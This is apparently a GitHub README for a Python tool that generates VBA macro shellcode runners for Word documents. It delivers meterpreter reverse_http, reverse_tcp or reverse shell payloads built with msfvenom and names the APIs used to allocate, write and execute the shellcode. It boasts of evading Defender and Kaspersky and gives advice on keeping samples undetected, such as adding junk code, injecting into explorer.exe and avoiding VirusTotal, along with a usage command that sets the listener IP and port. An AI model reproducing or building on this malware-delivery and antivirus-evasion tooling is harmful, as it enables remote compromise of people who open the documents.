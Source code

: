 # vba_bin_runner
Basic python tools to generate shellcode runner in vba
The stub use ZwAllocateVirtualMemory to allocate memory, RtlMoveMemory to write memory and EnumDateFormatsW to execute shellcode.

You can generate meterpreter/reverse_http (compatible cobalt strike), reverse_tcp and reverse_shell. 
In antiscan.me i have 0/26 detections in scantime. In runtime i bypass Defender and Kaspersky but if you use c2 some function can be detected by AV.

If the stub is detected you can edit/add junk code and change the function to allocate/write/execute. 
You can Easier  edit this with : https://github.com/karttoon/trigen/blob/master/function_VBA_notes.txt

The macro self inject shellcode in word process, after macro is enabled the Word Application crash, if you want to patch this you can edit stub to inject shellcode in other process (explorer.exe for exemple).
If you use meterpreter you can add automigrate in your listener to keep connection after Word Application crash.

To keep stub long time no-detect use antiscan.me to check and no virus total. 

NB : Please don't use this for illegal activity

# How to use
Python main.py -p 1 -L 192.168.1.17 -P 80 -o /home/kali/Desktop/test.vba
 -p : Is for the choice of payload
      1 -> windows/meterpreter/reverse_http
      2 -> windows/meterpreter/reverse_tcp
      3 -> windows/shell_reverse_tcp
      
 -L : Is for the ip of listener
 -P : Is for the port of listener
 -o : Is for the destination output of payload
 
 The tools use msfvenom to generate payload.

# For education only
